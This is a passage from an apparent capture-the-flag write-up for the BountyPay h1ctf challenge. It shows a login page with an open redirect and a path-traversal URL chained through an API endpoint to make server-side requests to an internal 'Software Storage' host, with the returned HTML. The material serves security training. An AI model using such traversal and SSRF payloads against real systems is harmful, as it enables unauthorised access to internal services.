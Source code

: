 HTML formatted:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>BountyPay | Login</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-sm-6 col-sm-offset-3">
            <div class="text-center" style="margin-top:30px"><img src="/images/bountypay.png" height="150"></div>
            <h1 class="text-center">BountyPay API</h1>
            <p style="text-align: justify">Our BountyPay API controls all of our services in one place. We use a <a href="/redirect?url=https://www.google.com/search?q=REST+API">REST API</a> with JSON output. If you are interested in using this API please contact your account manager.</p>
        </div>
    </div>
</div>
<script src="/js/jquery.min.js"></script>
<script src="/js/bootstrap.min.js"></script>
</body>
</html>
```
Moving forward - I've tried to make SSRF requests to `https://api.bountypay.h1ctf.com/redirect` endpoint. Basing on tests there are whitelist of URLs that we can be redirected to. Some of allowed URLs are those found in reconnaissance phase. For example, by visiting `software.bountypay.h1ctf.com` from browser, we can see such response:

{F861522}

But by using SSRF - we can see response from this server:

```json
{
    "url": "https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/F8gHiqSdpK\/..\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/&\/statements?month=01&year=2020",
    "data": "<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage<\/h1>\n            <form method=\"post\" action=\"\/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login<\/div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:<\/label><\/div>\n                        <div><input name=\"username\" class=\"form-control\"><\/div>\n                        <div style=\"margin-top:7px\"><label>Password:<\/label><\/div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"><\/div>\n                    <\/div>\n                <\/div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            <\/form>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"
}
```
